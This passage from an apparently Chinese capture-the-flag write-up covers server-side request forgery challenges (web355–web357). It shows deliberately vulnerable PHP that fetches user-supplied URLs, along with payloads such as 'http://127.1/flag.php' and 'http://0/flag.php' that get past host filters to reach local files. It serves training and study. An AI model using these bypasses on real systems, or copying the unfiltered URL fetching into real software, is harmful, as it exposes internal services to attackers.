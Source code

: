 ```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

Payload:

```
url=http://127.1/flag.php
```



### web356

> 题目要求[host]长度不超过3

Payload：

```
url=http://0/flag.php
```





### web357

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$ip = gethostbyname($x['host']);
echo '</br>'.$ip.'</br>';
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}


echo file_get_contents($_POST['url']);
}
else{
    die('scheme');
}
?> scheme
```